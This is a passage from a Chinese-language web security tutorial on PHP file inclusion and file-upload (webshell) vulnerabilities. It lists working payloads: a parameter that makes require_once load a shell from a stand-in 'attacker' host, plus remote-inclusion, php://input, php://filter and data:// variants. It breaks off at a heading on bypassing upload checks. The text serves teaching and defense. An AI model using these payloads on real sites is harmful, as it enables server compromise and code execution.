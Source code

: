 構造變量 `basePath` 的值。

```
/?basePath=http://attacker/phpshell.txt?
```

最終的代碼執行了

```php
require_once "http://attacker/phpshell.txt?/action/m_share.php";
```

問號後的部分被解釋爲 URL 的 querystring，這也是一種「截斷」。

- 普通遠程文件包含

  ```
  ?file=[http|https|ftp]://example.com/shell.txt
  ```

  需要 `allow_url_fopen=On` 並且 `allow_url_include=On` 。

- 利用 PHP 流 input

  ```
  ?file=php://input
  ```

  需要 `allow_url_include=On` 。

- 利用 PHP 流 filter

  ```
  ?file=php://filter/convert.base64-encode/resource=index.php
  ```

  需要 `allow_url_include=On` 。

- 利用 data URIs

  ```
  ?file=data://text/plain;base64,SSBsb3ZlIFBIUAo=
  ```

  需要 `allow_url_include=On` 。

- 利用 XSS 執行

  ```
  ?file=http://127.0.0.1/path/xss.php?xss=phpcode
  ```

  需要 `allow_url_fopen=On`，`allow_url_include=On` 並且防火牆或者白名單不允許訪問外網時，先在同站點找一個 XSS 漏洞，包含這個頁面，就可以注入惡意代碼了。

## 文件上傳

文件上傳漏洞是指用戶上傳了一個可執行腳本文件，並通過此文件獲得了執行服器端命令的能力。在大多數情況下，文件上傳漏洞一般是指上傳 WEB 腳本能夠被服務器解析的問題，也就是所謂的 webshell 問題。完成這一攻擊需要這樣幾個條件，一是上傳的文件能夠被 WEB 容器執行，其次用戶能從 WEB 上訪問這個文件，最後，如果上傳的文件被安全檢查、格式化、圖片壓縮等功能改變了內容，則可能導致攻擊失敗。

### 繞過上傳檢查
